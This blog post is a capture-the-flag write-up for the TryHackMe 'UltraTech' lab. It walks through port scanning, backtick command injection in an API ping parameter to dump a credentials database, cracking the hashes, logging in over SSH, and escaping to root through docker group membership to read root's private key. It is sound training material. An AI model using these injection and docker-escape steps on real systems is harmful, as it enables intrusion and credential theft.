 ```yaml
---
layout: post
title: "UltraTech — Writeup"
date: 2023-06-06 
categories: [Tryhackme,Linux Machines]
tags: [tryhackme, security, pentest, enumeration, web ultratech1]
link: https://tryhackme.com/room/ultratech1
image: /assets/img/Posts/ut.png
---
```


## `INTRODUCTION`

UltraTech is a medium level rated room that gives a perspective of security practices. It explores enumeration, subdomain discovery and Privilege escalation. Let's begin.
## `Initial recon - Port scanning`

We start off with an nmap scan to identify open ports and the services thy are running.

```shell
nmap -sC -sV -p- 10.10.105.45 -o nmap.out
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-06 10:01 EAT
Nmap scan report for 10.10.105.45
Host is up (0.15s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2611.45 seconds

```
The scan answers some of the queistions asked

Which software is using the port 8081?
```shell
8081/tcp  open  http    Node.js Express framework
```

Which other non-standard port is used?
```shell
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Which software using this port?
```shell
Apache 
```

The scan answers the above questions. As always, always explore the target.
upon visiting `http://10.10.105.45:8081/` we find it uses an api 
```shell
UltraTech API v0.1.3
```
Now it gets interesing.

We have an `ftp` service on `port 21`. Let's check that out. Always check the port for any anopnymous login. 
```shell
ftp anonymous@10.10.105.45
Connected to 10.10.105.45.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
```
It didnt go through.
Lets visit port 31331 (http://10.10.105.45:31331/)

![website](/assets/img/Posts/3131.png)



Which GNU/Linux distribution seems to be used?
```shell
Ubuntu
```
The software using the port 8081 is a REST api, how many of its routes are used by the web application?
To answer this we launch burpsuite to capture the traffic.
After intercepting the request we forward the request it terminates after hitting two endpoints.

```shell
http://10.10.134.175:8081/favicon.ico
http://10.10.134.175:8081/
```
The answer it 2 routes.

### `Subdomain discovery`
Start a directory scan using ffuf
```shell
ffuf -u http://10.10.105.45:31331/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
Back to the scan and something is cooking
```shell
    FUZZ: js
    FUZZ: javascript
    FUZZ: server-status
    FUZZ: images
```
The directory, http://10.10.105.45:31331/js has some interesting endpoints.

![website](/assets/img/Posts/dir.png)


### `Vulnerable parameter discovery`
```shell 
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error')
```
This line `const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}` is interesting. We can query the API by altering the request.
We try some commands
```shell
http://10.10.103.195:8081/ping?ip=ls

Output : ping: ls: Temporary failure in name resolution
```
We get an error but towards the right direction
Let's try aother command. We add `` characters to the command
```shell
http://10.10.103.195:8081/ping?ip=`ls`
```

This time we get a file
```shell
ping: utech.db.sqlite: Name or service not known

```
We can execute an rce using the ping command to fetch data.
```shell
http://10.10.103.195:8081/ping?ip=`cat utech.db.sqlite`
```

The output is some hash
Mr00tf357a0c52799563c7c7b76c1e7543a32
Madmin0d0ea5111e3c1def594c1684e3b9be84

Now we crack these hashes to establish if they are credentials.

We will use an online cracking tool https://crackstation.net/ for this task
0d0ea5111e3c1def594c1684e3b9be84 - n100906
0d0ea5111e3c1def594c1684e3b9be84 - mrsheafy

As we recall, there was a port 22 that was running a ssh service. We can checkif this credentials work.

```shell
 ssh r00t@10.10.105.45
r00t@10.10.105.45's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

r00t@ultratech-prod:~$ whoami
r00t

```
We are in!

Have a look around.

```shell
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ ls -la
total 28
drwxr-xr-x 4 r00t r00t 4096 Jun  6 06:17 .
drwxr-xr-x 5 root root 4096 Mar 22  2019 ..
-rw-r--r-- 1 r00t r00t  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 r00t r00t 3771 Apr  4  2018 .bashrc
drwx------ 2 r00t r00t 4096 Jun  6 06:17 .cache
drwx------ 3 r00t r00t 4096 Jun  6 06:17 .gnupg
-rw-r--r-- 1 r00t r00t  807 Apr  4  2018 .profile
r00t@ultratech-prod:~$ sudo -l
[sudo] password for r00t: 
Sorry, user r00t may not run sudo on ultratech-prod.
```

User r00t doesn't have root privileges.
We'll have to change that.

We check the groups that are in the machine

```shell
r00t@ultratech-prod:~$ groups
r00t docker
```
This makes this interesting. We have a docker container here and basically the run with root as the default user. More info here https://juggernaut-sec.com/docker-breakout-lpe/
 We head to gtfobins and find a command that can upgrade the shell.

 ```shell
 docker run -v /:/mnt --rm -it bash chroot /mnt sh
 ```
 `WE ARE ROOT`

 ```shell
 r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# ls
bin   home            lib64       opt   sbin      sys  vmlinuz
boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
dev   initrd.img.old  media       root  srv       usr
etc   lib             mnt         run   swap.img  var
# cd root
```
We can then locate the id_rsa
```shell
ls -la .ssh
total 16
drwx------ 2 root root 4096 Mar 22  2019 .
drwx------ 6 root root 4096 Mar 22  2019 ..
-rw------- 1 root root    0 Mar 19  2019 authorized_keys
-rw------- 1 root root 1675 Mar 22  2019 id_rsa
-rw-r--r-- 1 root root  401 Mar 22  2019 id_rsa.pub
# cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
```
There you have it.
HAPPY LEARNING! ♥

